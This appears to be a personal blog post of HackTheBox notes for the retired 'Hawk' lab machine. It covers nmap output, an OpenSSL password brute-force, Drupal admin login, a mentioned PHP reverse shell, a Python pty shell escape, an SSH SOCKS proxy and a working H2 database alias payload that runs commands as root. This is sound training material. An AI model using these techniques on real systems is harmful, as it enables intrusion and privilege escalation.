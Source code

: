 ```yaml
---
title: HackTheBox Notes - Hawk (ft. Procrastination)
category: infosec
date: 2019-02-13
thumbnail: hawk-thumb.jpg
tags: htb,htb-notes
description:
---
```


Due to my incredible laziness, my last HTB article was five months ago. This is because I can't be bothered to explain stuff in a proper walkthrough of the boxes, so here's something much easier: I'm just posting the notes I was writing down as I was going through the box.

This is probably what I'm going to keep doing for HTB from now on, I have another three boxes that I'll publish when they are retired. But worry not, I promise after those boxes, I'll have much higher quality notes that won't be a confusing and poorly written mess.

I'm also not doing those old thumbnails of the box identicons anymore because those are way to hard to draw on a touchpad.

- - - -

### Nmap Scan
```
Starting Nmap 7.70 ( https://nmap.org ) at 2018-11-05 18:11 AEDT
Nmap scan report for 10.10.10.102
Host is up (0.28s latency).
Not shown: 937 closed ports, 60 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 ftp      ftp          4096 Jun 16 22:21 messages
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.10.14.2
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e4:0c:cb:c5:a5:91:78:ea:54:96:af:4d:03:e4:fc:88 (RSA)
|   256 95:cb:f8:c7:35:5e:af:a9:44:8b:17:59:4d:db:5a:df (ECDSA)
|_  256 4a:0b:2e:f7:1d:99:bc:c7:d3:0b:91:53:b9:3b:e2:79 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Welcome to 192.168.56.103 | 192.168.56.103
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.09 seconds
```

### FTP Server
`ftp://10.10.10.120`

* Allows anonymous login
* Only file in `messages/.drupal.txt.enc`
* Can’t download with `get` for some reason, so let’s just view it

```
ftp> get .drupal.txt.enc -
remote: .drupal.txt.enc
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for .drupal.txt.enc (240 bytes).
U2FsdGVkX19rWSAG1JNpLTawAmzz/ckaN1oZFZewtIM+e84km3Csja3GADUg2jJb
CmSdwTtr/IIShvTbUd0yQxfe9OuoMxxfNIUN/YPHx+vVw/6eOD+Cc1ftaiNUEiQz
QUf9FyxmCb2fuFoOXGphAMo+Pkc2ChXgLsj4RfgX+P7DkFa8w1ZA9Yj7kR+tyZfy
t4M0qvmWvMhAj3fuuKCCeFoXpYBOacGvUHRGywb4YCk=
226 Transfer complete.
240 bytes received in 0.00 secs (5.8688 MB/s)
ftp>
```
Just a base64 string

* But decoding it makes some gibberish
```
justin@sierra-fc282: ~ # echo
"U2FsdGVkX19rWSAG1JNpLTawAmzz/ckaN1oZFZewtIM+e84km3Csja3GADUg2jJbCmSdwTtr/IIShvTbUd0yQxfe9OuoMxxfNIUN/YPHx+vVw/6eOD+Cc1ftaiNUEiQzQUf9FyxmCb2fuFoOXGphAMo+Pkc2ChXgLsj4RfgX+P7DkFa8w1ZA9Yj7kR+tyZfyt4M0qvmWvMhAj3fuuKCCeFoXpYBOacGvUHRGywb4YCk=" | base64 --decode
<random giberish that breaks my mardown parser>
justin@sierra-fc282: ~ #
```

* Now as it turns out, I did in fact download it but I just didn’t see it because it was a hidden file and I was using a normal `ls`…
* Anyway, because of the `.enc` extension, I’m gonna go ahead and assume it’s encrypted with OpenSSL. So now we save the decoded version to a file
`cat drupal.txt.enc | base64 --decode > drupal.b64d.enc`
* Downloaded [this tool to bruteforce the password](https://github.com/glv2/bruteforce-salted-openssl)
* And now we try it with some basic options

```
root@kali:~/Documents/htb/hawk# /opt/file/bruteforce-salted-openssl/bruteforce-salted-openssl -t 6 -f /usr/share/wordlists/rockyou.txt -c aes256 -v 30 drupal.b64d.enc

Warning: using dictionary mode, ignoring options -b, -e, -l, -m and -s.

Tried passwords: 14344391
Tried passwords per second: 896524.437500
Last tried password: *7¡Vamos!

Password not found.
The file might have been encrypted with a different cipher or/and a
different digest (e.g. OpenSSL 1.0.x uses the MD5 digest by default
but OpenSSL 1.1.x uses SHA256 by default).
```
Nope. This might take a while…

* Okay let’s try it with a different digest `sha256`

```
root@kali:~/Documents/htb/hawk# /opt/file/bruteforce-salted-openssl/bruteforce-salted-openssl -t 6 -f /usr/share/wordlists/rockyou.txt -c aes256 -d sha256 -v 30 drupal.b64d.enc
Warning: using dictionary mode, ignoring options -b, -e, -l, -m and -s.

Tried passwords: 32
Tried passwords per second: inf
Last tried password: hello

Password candidate: friends
```
That was easy. We were not here for a while, I lied

* Now we can decrypt it

```
root@kali:~/Documents/htb/hawk# openssl enc -d -aes256 -salt -in drupal.b64d.enc -out drupal.decrypted -k friends
*** WARNING : deprecated key derivation used.
Using -iter or -pbkdf2 would be better.
root@kali:~/Documents/htb/hawk# cat drupal.decrypted
Daniel,

Following the password for the portal:

PencilKeyboardScanner123

Please let us know when the portal is ready.

Kind Regards,

IT department
```
Neato

### Drupal Web Portal
`http://10.10.10.102`

* Login with `Admin`:`PencilKeyboardScanner123`
* `admin/reports/status` says Drupal version is `7.58`
	*  `/CHANGELOG.txt` says it was patched for `CVE-2018-7600`
* Looks like we gotta upload a good ol’ PHP reverse shell.
	* First we need to allow Drupal to add PHP page snippets. In `admin/modules` tick the `PHP Filter` option
	* Go to `node/add/page` and upload the shellcode
	* You know the rest

### PHP Reverse Shell
* Logged in as `www-data`
* We have access to `/home/daniel/user.txt`. So just get that
- - - -
* Attempted to ssh with a password found in `/var/www/html/sites/default/settings.php ` - `drupal4hawk` with username `daniel`

### SSH Python Client
* `daniel` user uses a Python restricted shell. So yep
* Easy fix `import pty; pty.spawn(‘/bin/bash’)`

### SSH Bash Client
* Logged into mysql server with `drupal`:`drupal4hawk`
	* In `users` table

```
name: admin
pass: $S$DFw163ixD00W55hdCqtvCB13XOTLhZ0pt0FVpFy1Ntmdp5EAOX08
```
The hash is a special `sha512 (Drupal)` hash, so this is probably not where we are supposed to be

* Another database `h2` is running as root. We can access it on `10.10.10.102:8082`
	* But we get denied access because it only accepts connections from localhost, we need to set up a proxy
	* Create a new SSH session with `ssh -D 8080 daniel@10.10.10.102`
	* Setup Firefox to allow SOCKS proxy with `127.0.0.1:8080`
	* Now we can access it
* Looking back at `ps -aux` we see that the process is running without the `-user` or `-pass` args which means we can access it with default credentials
	* But, of course… this doesn’t work
	* [Frequently Asked Questions](http://www.h2database.com/html/faq.html#connect) for `h2` shows that the database may be stored somewhere different
	* Replaced `~/test` with `./data/test` and we’re in

### H2 Web Console
`10.10.10.102:8082`

* Looked for an exploit and [found this](https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html)
* So in the console you run

```
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A"); return s.hasNext() ? s.next() : "";  }$$;
CALL SHELLEXEC('cat /root/root.txt')
```
And it displays
```
CALL SHELLEXEC('cat /root/root.txt');
PUBLIC.SHELLEXEC('cat /root/root.txt')
54f3e840fe5564b42a8320fd2b608ba0
(1 row, 5 ms)
```

